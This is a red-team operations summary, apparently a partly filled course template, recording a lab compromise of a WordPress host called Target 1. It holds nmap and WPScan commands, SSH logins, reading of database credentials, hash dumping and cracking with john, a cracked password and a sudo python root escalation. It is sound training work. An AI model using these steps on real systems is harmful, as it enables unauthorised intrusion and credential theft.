# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```



This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan
      - _TODO: Include the command run_

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```



  - Use SSH to gain a user shell
    - ssh michael@192.168.1.110



    - cat var/www/html/service.html




  - `flag2.txt`: _TODO: Insert `flag2.txt` fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

    - cat var/www/flag2.txt



  - `flag3.txt`: _TODO: Insert `flag3.txt` afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Find the MySQL database password
    - cd /var/www/html/wordpress/
    - nano wp-config.php



  - Use the credentials to log into MySQL and dump WordPress user password hashes.
    - Flag 3 found in wp_posts



    - Password hashes found in wp_users



  - `flag4.txt`: _TODO: Insert `flag4.txt` 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Crack password hashes with john.
    - Copied steven's password hash from MySQL and pasted into ~/Desktop/hash.txt
    - cd ~/Desktop
    - john hash.txt
    - Discovered Steven’s password is “pink84”



  - Secure a user shell as the user whose password you cracked.
    - ssh steven@192.168.1.110



  - Escalate to root
    - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - cd /root/


